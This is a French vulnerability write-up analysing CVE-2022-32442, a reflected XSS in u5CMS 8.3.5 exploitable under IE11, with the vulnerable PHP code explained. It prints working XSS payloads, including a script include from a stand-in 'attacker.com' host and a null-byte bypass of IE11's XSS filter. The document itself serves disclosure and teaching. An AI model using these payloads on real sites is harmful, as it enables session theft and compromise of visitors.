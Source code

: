 ```yaml
---
description: 22 Juin 2022
---
```


# CVE-2022-32442

> Je vous propose mon analyse de la **CVE-2022-32442**, qui est une vulnérabilité de type Cross-Site Scripting (XSS) dans le système de gestion de contenu (CMS) nommé u5CMS.

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** Reflected Cross-Site Scripting (XSS) ([CWE-79 - Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html))

La page d'accueil d'u5CMS en version 8.3.5 est vulnérable à une Cross-Site Scripting (XSS) de type réfléchie. La charge peut être être injectée après le caractère `?` de l'URL et est réfléchie dans les deux liens HTML permettant le changement de langue.

![S](<../../.gitbook/assets/image (254).png>)

## Analyse de la vulnérabilité

Ce qui suit le caractère `?` de l'URL est réfléchie dans l'attribut `href` du lien `<a></a>` des deux (autres) choix de langues qu'offre le CMS :&#x20;

![](<../../.gitbook/assets/image (149).png>)

L'injection d'un caractère `"` visant à s'échapper de l'attribut `href` afin d'injecter la charge malicieuse `"onmouseover='alert(1)'value="&l=fr` ne fonctionne pas. En effet, le navigateur encode les caractères spéciaux rendant l'attaque ainsi sans effet :&#x20;

![](<../../.gitbook/assets/image (127).png>)

L'encodage effectué par les navigateurs est le résultat de la bonne implémentation de la section 2.2 de la RFC 1738 ([https://datatracker.ietf.org/doc/html/rfc1738#section-2.2](https://datatracker.ietf.org/doc/html/rfc1738#section-2.2)) :&#x20;

![](<../../.gitbook/assets/image (199).png>)

Firefox, Chrome ou encore Edge sont des bons élèves et implémentent correctement cette RFC, mais ce n'est pas forcément le cas pour ce bon vieux IE11. En effet ce navigateur n'encode pas les noms et les valeurs des paramètres :&#x20;

![](<../../.gitbook/assets/image (208).png>)

L'exécution d'un script distant est également possible grâce à la payload suivante `"><script/src=https://attacker.com/xss.js>&l=fr` :&#x20;

![](<../../.gitbook/assets/image (193).png>)

Et ce, même si le filtre anti-XSS d'IE11 semble être bien actif :&#x20;

![](<../../.gitbook/assets/image (165).png>)

{% hint style="info" %}
Microsoft a annoncé qu'Internet Explorer 11 ne sera plus supporté et progressivement retiré des versions de Windows. Cela peut avoir pour conséquence que les remontées de ce type (ie. exploitable seulement sous IE11) ne soient plus acceptées au sein des programmes de Bug Bounty.
{% endhint %}

{% hint style="danger" %}
Attention à lire également la partie "Code vulnérable" afin de bien comprendre le fonctionnement de l'attaque et la raison pour laquelle la vulnérabilité est exploitable seulement sous IE11.
{% endhint %}

Afin de prouver la présence de la XSS réfléchie sur n'importe quel navigateur il est possible de passer par une interception de proxy via Burp (ou autre) :&#x20;

![](<../../.gitbook/assets/image (266).png>)

## Code vulnérable

Le fichier `index.php` va rechercher les motifs `{{{motifs}}}` dans le fichier `htmltemplate.css` :

{% code title="index.php" %}
```php
$template=str_replace('[_logo_]','r/logo/'.def($file_d,$file_e,$file_f).'?t='.filemtime('r/logo/'.def($file_d,$file_e,$file_f)),file_get_contents('r/htmltemplate.css'));
...
$i_i_item=explode('{{{',$template);
for ($i_i_i=0;$i_i_i<count($i_i_item);$i_i_i++) {
   if (strpos($i_i_item[$i_i_i],'}}}')>1) {
      $i_i_part=explode('}}}',$i_i_item[$i_i_i]);
```
{% endcode %}

A un certain moment, le motif sera celui concernant l'affichage des liens de changement de langues `{{{languages}}}` :&#x20;

{% code title="htmltemplate.css" %}
```html
<div id="main">
  <div id="header" style="background:url([_logo_]);background-size:cover">
    <div id="metanavi">&nbsp;&nbsp;&nbsp;<a name="search"></a>{{{search}}}
      <div id="languages">{{{languages}}}</div>
```
{% endcode %}

Alors, le fichier nommé `u5sys.languages.php` sera inclus (`$i_i_part[0]` et aura pour valeur `"languages"`) :&#x20;

{% code title="index.php" %}
```php
if (file_exists('u5sys.'.$i_i_part[0].'.php')) include('u5sys.'.$i_i_part[0].'.php');
```
{% endcode %}

Ce nouveau fichier va afficher au sein de la page d'accueil les deux liens de changement de langues suivant la valeur contenu dans le paramètre de l'URL `l` :

{% code title="u5sys.languages.php" %}
```php
if ($_GET['l']==$lan3na) {
  $lancode=$lan3na;
  $nbsp='';
  if ($lan1name!='' && $lan2name!='') $nbsp='&nbsp;&nbsp;&nbsp;';
  if($u5showlinkofactivelanguageinmetanavi=='yes')$lanswitch='<a href="'.chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>'.$nbsp.'<a href="'.chglang($lan3na).'">'.$lan3name.'</a>';
  else $lanswitch='<a href="'. chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>';
}

...

echo $lanswitch;
```
{% endcode %}

{% hint style="info" %}
Il existe en fait trois blocs du même genre en fonction de la langue sélectionnée : "fr", "de" ou "en". L'exemple de code ici correspond à la langue "fr".
{% endhint %}

La fonction `chglang()` retourne la variable `$u` qui prend comme valeur le caractère `?` ainsi que  ce qui suit dans l'URL (grâce à `$_SERVER['QUERY_STRING']`) :

{% code title="chglang.inc.php" %}
```php
function chglang($l) {
  global $lan1na;
  global $lan2na;
  global $lan3na;
  
  $u='?'.$_SERVER['QUERY_STRING'];
  //echo 'query string : ' . $_SERVER['QUERY_STRING'];
  $u=str_replace('l='.$lan1na,'',$u);
  $u=str_replace('l='.$lan2na,'',$u);
  $u=str_replace('l='.$lan3na,'',$u);
  $u=str_replace('l=','',$u);
  $u=($u.'&l='.$l);
  $u=str_replace('&&','&',$u);
  $u=str_replace('?&','?',$u);
  //$u=str_replace('&','&amp;',$u);
  return $u;
}
```
{% endcode %}

{% hint style="info" %}
Les variables $lan1na, $lan2na, $lan3na correspondent respectivement aux chaines "de", "en" et "fr". Elles sont récupérées depuis la table `languages` en base de données.
{% endhint %}

Le coupable de la non exploitabilité de la vulnérabilité XSS sur d'autres navigateurs que IE11, à savoir à minima Chrome et Firefox, est la récupération de la valeur de l'URL par la variable `$_SERVER['QUERY_STRING']`. En effet, les donnée présentes dans l'URL et récupérées via ce procédé sont bien encodées par les navigateurs récents (la situation serait la même si les données étaient récupérées par la variable `$_SERVER['REQUEST-URI']`) et pas décodé par un composant côté serveur. Ce n'est pas le cas lors d'une récupération des données via la variable `$_GET['variable']` par exemple.

{% code title="globals.inc.php" %}
```php
$sql_a="SELECT * FROM languages";
$result_a=mysql_query($sql_a);
...
$row_a = mysql_fetch_array($result_a);
...
$lan1na=$row_a['lan1na'];
$lan2na=$row_a['lan2na'];
$lan3na=$row_a['lan3na'];
```
{% endcode %}

![](<../../.gitbook/assets/image (212).png>)

**Mise à jour du 10/07/2022**

La reproduction du code vulnérable dans un contexte plus simple (hébergé toujours sur la même VM) :&#x20;

```php
<?php
echo 'a href="example.com' . $_SERVER["QUERY_STRING"] .'">lien</a>';
?>
```

fait se déclencher la protection anti-XSS d'IE11 :&#x20;

![](<../../.gitbook/assets/image (142).png>)

La cause de cette différence (entre l'environnement utilisé pour le test de u5cms et celui de PoC) n'a pas pu être identifiée mais le contournement suivant `<script/%00%00v%00%00>alert(1)</script>` semble fonctionner dans le cadre du PoC :&#x20;

![](<../../.gitbook/assets/image (251).png>)

et également sur le CMS vulnérable :&#x20;

![](<../../.gitbook/assets/image (17).png>)

## Ressources

* [https://github.com/u5cms/u5cms/issues/49](https://github.com/u5cms/u5cms/issues/49)
* [https://twitter.com/xsspayloads/status/1276386591972438017](https://twitter.com/xsspayloads/status/1276386591972438017)
